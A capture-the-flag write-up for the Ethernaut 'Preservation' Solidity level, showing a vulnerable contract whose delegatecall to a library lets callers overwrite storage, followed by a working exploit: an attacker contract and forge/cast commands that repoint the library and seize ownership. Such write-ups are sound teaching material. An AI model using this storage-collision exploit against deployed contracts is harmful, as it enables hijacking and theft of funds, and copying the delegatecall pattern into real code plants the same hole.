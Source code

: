 ## Preservation Level Outline

**Difficulty : 8/10**

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F)

## Solution

When a contract makes a function call using delegatecall it loads the function code from another contract and executes it as if it were its own code. 

This means that when we make a delegatecall to `timeZone1Library`, we are modifying storage slot 0 in Preservation. If we change this to point to a malicious contract, we can then create a spoof function for "setTime(uint256)" and change the owner.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    uint256 storageSlot0;
    uint256 storageSlot1;
    uint256 attack_this_slot;

    function setTime(uint256 newOwner) public {
        attack_this_slot = newOwner;
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --private-key  $PRIVATE_KEY
```

##### 3. Changing storage slot 0 to point to our malicious contract
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $DEPLOYED_ADDRESS --private-key $PRIVATE_KEY
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Calling our exploited contract through the delegatecall and passing our address as the owner
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $NEW_OWNER --gas 60000 --private-key $PRIVATE_KEY
```
> Replace $NEW_OWNER with your EOA address 

### [:arrow_left: Back To Main Menu](../)
